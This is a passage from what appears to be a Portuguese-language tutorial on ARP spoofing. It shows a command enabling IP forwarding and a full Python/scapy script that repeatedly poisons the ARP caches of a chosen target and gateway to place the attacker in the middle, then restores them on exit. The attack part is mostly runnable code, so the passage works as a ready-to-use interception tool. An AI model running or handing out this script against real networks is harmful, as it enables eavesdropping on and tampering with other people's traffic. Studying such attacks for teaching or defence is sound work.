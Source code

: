 ```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
ou

Utilizando o iptables

```bash
sudo apt install iptables
```

1. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um script em python.

```python
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")

    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()

    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()

    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```
---